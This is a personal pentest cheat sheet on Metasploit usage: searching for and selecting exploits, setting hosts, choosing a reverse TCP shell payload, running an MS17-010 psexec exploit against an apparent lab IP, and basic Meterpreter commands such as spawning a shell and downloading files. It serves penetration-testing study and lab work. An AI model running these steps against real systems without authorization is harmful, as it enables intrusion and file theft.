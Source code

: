 ```yaml
---
id: Metasploit
aliases: ["msfconsole"]
tags:
  - Pentest/Tools/Metasploit
---
```


# Metasploit

## Resources

- [Metasploit](https://www.metasploit.com/)
- [GitHub - Metasploit](https://github.com/rapid7/metasploit-framework)

<!-- Usage {{{-->
## Usage

### Launch Metasploit

Launch the Metasploit Framework

```sh
msfconsole
```

### Search Exploit

Search for exploits/modules/scanners

```sh
search <exploit>
```

### Select Exploit

Select the exploit/module/scanner

```sh
use <number_of_exploit>
```

### Show Options

Any option with `Required` set to `yes` needs to be set

```sh
show options
```

Show advanced options

```sh
show advanced
```

### Set Options

Set **Local Host** (IP, or the name of a network interface)

```sh
set LHOST <local_host>
```

Set **Remote Host** (IP, multiple IPs, or a file containing a list of IPs)

```sh
set RHOST <remote_host>
```

Set **payload** (*optional*)

```sh
set payload generic/shell_reverse_tcp
```

> [!example]-
>
> ```sh
> msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
> RHOSTS => 10.10.10.40
> msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
> LHOST => tun0
> ```

### Check Exploit

Check if the target is vulnerable to the exploit

```sh
check
```

> [!warning]
>
> Not every exploit supports the `check` function

### Run Exploit

Use the `run` or `exploit` commands to launch the exploit

```sh
run
```

```sh
exploit
```
<!-- }}} -->

<!-- Meterpreter {{{-->
# Meterpreter

## Usage

Synopsis

```sh
meterpreter > help
```

Help

```sh
help
```

Spawn a shell

```sh
shell
```

## Options

- cd
- ls
- pwd
- download <file>
<!-- }}} -->
